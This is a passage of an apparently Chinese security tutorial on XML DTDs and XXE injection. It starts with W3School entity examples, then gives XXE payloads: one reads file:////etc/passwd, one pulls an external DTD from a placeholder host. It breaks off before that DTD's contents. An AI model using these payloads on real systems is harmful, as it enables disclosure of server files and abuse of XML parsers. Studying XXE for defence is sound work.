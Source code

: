    ```
   <!ELEMENT note (to,from,heading,body)>
   <!ELEMENT to (#PCDATA)>
   <!ELEMENT from (#PCDATA)>
   <!ELEMENT heading (#PCDATA)>
   <!ELEMENT body (#PCDATA)>
   ```

**DTD实体**
DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用

1. 内部实体声明:<!ENTITY 实体名称 "实体的值"> ex:`<!ENTITY eviltest "eviltest">`

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE test [
   <!ENTITY writer "Bill Gates">
   <!ENTITY copyright "Copyright W3School.com.cn">
   ]>
   
   <test>&writer;&copyright;</test>
   ```

2. **外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">**

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE test [
   <!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
   <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
   ]>
   
   <author>&writer;&copyright;</author>
   ```

#### XXE构建外部实体注入

 1. 直接通过DTD外部实体声明

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY b SYSTEM "file:////etc/passwd">
    ]>
    <c>&b;</c>
    ```

 2. 通过DTD文档引入外部DTD文档，再引入外部实体声明

    ```
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY b SYSTEM "http://xxxxx.com/test.dtd">
    ]>
    <c>&b;</c>
    
    test.dtd:
    